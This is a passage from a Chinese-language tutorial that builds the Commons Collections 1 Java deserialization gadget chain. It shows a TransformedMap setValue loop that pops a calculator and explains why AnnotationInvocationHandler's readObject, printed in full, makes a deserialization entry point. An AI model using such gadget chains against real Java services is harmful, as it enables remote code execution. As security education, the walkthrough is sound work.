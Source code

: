 ```java
for(Map.Entry<Object, Object> entry:transformedMap.entrySet()) {
    entry.setValue(Runtime.class);
}
```

这时，我们运行一下代码，发现计算器成功地弹出来了。(记得先要把前面`chainedTransformer.transform(Runtime.class)` 给注释掉，否则可能弹出两个计算器)

现在我们的过渡方法又往前推进了一步。下面我们就需要找到一个类，它有方法调用 `setValue`，最好这个方法直接就是 `readObject` 方法，这样只要把这个类的对象反序列化，就可以调用 `setValue` 方法，进而执行我们的危险方法。

现在我们对着 `setValue` 方法使用 `alt + F7` 查看用法，去找一找有没有合适的方法。这时就要提起我们一开始说的这个 `AnnotationInvocationHandler` 类了。它有一个 `readObject` 方法正好就调用了 `setValue` 。

**如果你的 IDEA 找不到这个类，请重新去看第一节“环境搭建”，那里有说明怎么找到这个类的源码**

![](https://repo.sxrhhh.top/undefined20240622022946.png)

我在这里直接给出这个方法的全部内容：

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```
